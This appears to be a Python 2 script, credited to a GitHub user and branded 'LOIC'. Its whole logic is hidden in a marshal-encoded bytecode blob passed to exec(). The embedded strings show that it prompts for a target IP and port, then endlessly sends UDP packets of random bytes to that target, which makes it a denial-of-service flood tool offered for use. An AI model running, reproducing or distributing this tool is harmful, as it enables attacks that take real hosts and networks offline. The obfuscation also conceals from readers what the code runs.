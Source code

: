 #Compiled By Mahfuzahamedfahad
#Github : https://github.com/mahfuzahamedfahad/fahad.
#ngapain stah ^_^
import marshal
exec(marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00@\x00\x00\x00s\x8d\x01\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00d\x00\x00d\x01\x00l\x01\x00Z\x01\x00d\x00\x00d\x01\x00l\x02\x00Z\x02\x00d\x00\x00d\x01\x00l\x03\x00Z\x03\x00d\x00\x00d\x01\x00l\x04\x00Z\x04\x00d\x00\x00d\x02\x00l\x05\x00m\x05\x00Z\x05\x00\x01e\x05\x00j\x06\x00\x83\x00\x00Z\x06\x00e\x06\x00j\x07\x00Z\x07\x00e\x06\x00j\x08\x00Z\x08\x00e\x06\x00j\t\x00Z\t\x00e\x06\x00j\n\x00Z\n\x00e\x06\x00j\x0b\x00Z\x0b\x00e\x03\x00j\x03\x00e\x03\x00j\x0c\x00e\x03\x00j\r\x00\x83\x02\x00Z\x0e\x00e\x04\x00j\x0f\x00d\x03\x00\x83\x01\x00Z\x10\x00e\x01\x00j\x11\x00d\x04\x00\x83\x01\x00\x01e\x01\x00j\x11\x00d\x05\x00\x83\x01\x00\x01Hd\x06\x00GHd\x07\x00GHd\x08\x00GHd\x07\x00GHd\t\x00GHHe\x12\x00d\n\x00\x83\x01\x00Z\x13\x00e\x14\x00d\x0b\x00\x83\x01\x00Z\x15\x00e\x01\x00j\x11\x00d\x04\x00\x83\x01\x00\x01e\x01\x00j\x11\x00d\x0c\x00\x83\x01\x00\x01d\r\x00GHe\x02\x00j\x16\x00d\x0e\x00\x83\x01\x00\x01d\x0f\x00Z\x17\x00x[\x00e\x18\x00r\x88\x01e\x0e\x00j\x19\x00e\x10\x00e\x13\x00e\x15\x00f\x02\x00\x83\x02\x00\x01e\x17\x00d\x10\x00\x17Z\x17\x00e\x15\x00d\x0f\x00\x17Z\x15\x00d\x11\x00e\x17\x00e\x13\x00e\x15\x00f\x03\x00\x16GHe\x15\x00d\x12\x00k\x02\x00r.\x01d\x0f\x00Z\x15\x00q.\x01q.\x01Wd\x01\x00S(\x13\x00\x00\x00i\xff\xff\xff\xffN(\x01\x00\x00\x00t\x08\x00\x00\x00datetimei\xd2\x05\x00\x00t\x05\x00\x00\x00clears\x0b\x00\x00\x00figlet LOICs\xb6\x02\x00\x00\x1b[31;1m\n         `/ymMMMMMMMMMMMMMMmy/`\n       /hMMMMMMMMMMMMMMMMMMMMMMh/\n     /mMMmNMMMMMNNNNNNNNMMMMMNNMMm/\n   `hNmo:dMMNNNmNNmNNmNNmNNNMMd:omNh`\n  .mh:+/hMNNNNmNNmNdhmmNNmNNNNMy/o:hm.\n `d+://sNmMMMmMMMmdy+/mMMMmMMMmNs///+d`\n ys.o/oMmNNNmNNMNNMmdMNNMNNmNNNmMo/o.ys\n`my.-/NmMMMMmMMNmNNyyNNmNMMmMMMMmN/:`ym`\n-h/+s/MmMMMNmNNNdym++mymNNNmNMMNmM:so/h-\n-N.o.sMmMMMNh/:-`-Mo\x1b[37;1msM-`-:/hNMMMmMs.+.N-\n`ho/-ohmMMMM/    -M/+M.    /MMMMmho-/oh\n s+-s-odmNNN`     /-:/     .NNNmd+:s-+s\n `mo/-:+ymMm                mMms+:-/om`\n  .h/+/y`hhs                yyh`y/+/h.\n   `hd/::-+.                .+-::/dy`\n     /hs+/::.--          --.::/+sh:\n       :hds+/-`          `-/+sdh:\n         `/ymM+          oMmy/s0\x00\x00\x00\x1b[32;1m<=======================================>s1\x00\x00\x00\x1b[34;1m||========>LON ORBIT LOW CANON<=========||s\x18\x00\x00\x00RECODE=mahfuzahamedfahad\x16\x00\x00\x00MASUKAN IP TAGET ===> s\x10\x00\x00\x00Port       ===> s\x10\x00\x00\x00figlet Loading..s\x19\x00\x00\x00membutuhkan waktu 5 detiki\x05\x00\x00\x00i\x00\x00\x00\x00i\x00\xca\x9a;s0\x00\x00\x00\x1b[32;1mMengirim %s packet ke %s throught port:%si\xfe\xff\x00\x00(\x1a\x00\x00\x00t\x03\x00\x00\x00syst\x02\x00\x00\x00ost\x04\x00\x00\x00timet\x06\x00\x00\x00sockett\x06\x00\x00\x00randomR\x00\x00\x00\x00t\x03\x00\x00\x00nowt\x04\x00\x00\x00hourt\x06\x00\x00\x00minutet\x03\x00\x00\x00dayt\x05\x00\x00\x00montht\x04\x00\x00\x00yeart\x07\x00\x00\x00AF_INETt\n\x00\x00\x00SOCK_DGRAMt\x04\x00\x00\x00sockt\x08\x00\x00\x00_urandomt\x05\x00\x00\x00bytest\x06\x00\x00\x00systemt\t\x00\x00\x00raw_inputt\x02\x00\x00\x00ipt\x05\x00\x00\x00inputt\x04\x00\x00\x00portt\x05\x00\x00\x00sleept\x04\x00\x00\x00sentt\x04\x00\x00\x00Truet\x06\x00\x00\x00sendto(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x08\x00\x00\x00<module>\x06\x00\x00\x00sH\x00\x00\x00\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x02\x10\x01\x0c\x01\t\x01\t\x01\t\x01\t\x01\t\x03\x18\x01\x0f\x03\r\x01\r\x01\x01\x13\x05\x03\x05\x01\x05\x01\x05\x01\x05\x01\x01\x01\x0c\x01\x0c\x02\r\x01\r\x01\x05\x01\r\x01\x06\x01\t\x01\x16\x01\n\x01\n\x01\x12\x01\x0c\x01'))
